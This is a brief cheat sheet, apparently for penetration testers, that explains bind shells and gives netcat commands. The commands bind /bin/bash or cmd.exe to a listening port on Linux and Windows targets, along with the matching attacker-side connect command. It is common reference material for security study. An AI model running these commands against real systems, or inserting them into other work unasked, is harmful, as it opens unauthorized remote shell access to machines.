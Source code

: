 A bind shell is a type of shell where the target machine opens a specific port and binds a command-line interface (CLI) to it. The attacker can connect to this port, gaining access to the shell on the target machine. Unlike reverse shells, bind shells require the attacker to initiate the connection to the target.

## Linux Bind Shell with Netcat

- **Target Machine**
```bash
nc -lvp <bind_port> -e /bin/bash
```

- **Attacker machine**
```bash
nc <target_ip> <bind_port>
```

## Windows Bind Shell with Netcat
It will be necessary transmit the Netcat executable to the Windows machine from the attacker's machine, since Netcat is not preinstalled on Windows.

- **Target Machine**
```bash
nc -lvp <bind_port> -e cmd.exe
```

- **Attacker machine**
```bash
nc <target_ip> <bind_port>
```